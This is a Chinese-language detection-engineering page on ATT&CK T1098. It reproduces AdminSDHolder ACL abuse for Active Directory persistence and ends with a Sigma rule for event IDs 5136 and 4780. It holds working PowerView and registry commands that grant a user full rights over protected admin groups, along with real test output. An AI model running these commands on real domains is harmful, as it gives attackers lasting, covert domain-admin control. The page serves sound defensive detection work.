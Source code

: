 # T1098-Windows-AdminSDHolder

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护的AD账户和组的模板。

Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的。

如果能够修改AdminSDHolder对象的ACL，那么修改的权限将自动应用于所有受保护的AD账户和组，这可以作为一个域环境权限维持的方法。

## 检测日志

windows 安全日志

## 测试复现

### 完整利用过程

1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组。

2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限。

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限。

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
```

例如修改成等待600秒的命令如下：

```reg
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters/v AdminSDProtectFrequency /t REG_DWORD/d 600
```

参考资料：<https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/>

**注：不建议降低默认间隔时间，因为在大型环境中可能会导致LSASS性能下降。**

3.获得对整个域的控制权限

(1)用户testa能够向域管理员组添加帐户。

验证权限的命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
```

(2)用户testa能够直接访问域控制器上的文件。

### 测试过程

1.查询AdminSDHolder对象的ACL
查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org"的ACL。

命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityReference
```

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Import-Module .\PowerView.ps1
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityR
eference

IdentityReference
-----------------
NT AUTHORITY\Authenticated Users
NT AUTHORITY\SYSTEM
BUILTIN\Administrators
XIAOMI\Domain Admins
XIAOMI\Enterprise Admins
Everyone
NT AUTHORITY\SELF
NT AUTHORITY\SELF
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Windows Authorization Access Group
BUILTIN\Terminal Server License Servers
BUILTIN\Terminal Server License Servers
XIAOMI\Cert Publishers
```

2.向AdminSDHolder对象添加ACL

添加用户xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

**注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right**

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（执行失败）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

```yml
title: Windows-AdminSDHolder
description: Windows server 2008 R2（AD域控）
references: https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md OR https://github.com/0Kee-Team/WatchAD/blob/master/modules/detect/event_log/persistence/AdminSDHolder.py
tags: 1098
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 5136  #已修改目录服务对象。AdminSDHolder更改，一般用作权限维持，因为更改情况极少
    selection2:
        EventID: 4780  #ACL设置在管理员组成员的帐户上
    timeframe: last 1h #默认等待60分钟之后生效，具体原因可参考下面SDPROP说明
    condition: all of them
level: medium
```

## 参考推荐

域渗透——AdminSDHolder:<https://anquan.baidu.com/article/877>

PowerView:<https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>

SDPROP说明:<https://xz.aliyun.com/t/7276>

MITRE-ATT&CK-T1098:<https://attack.mitre.org/techniques/T1098/>

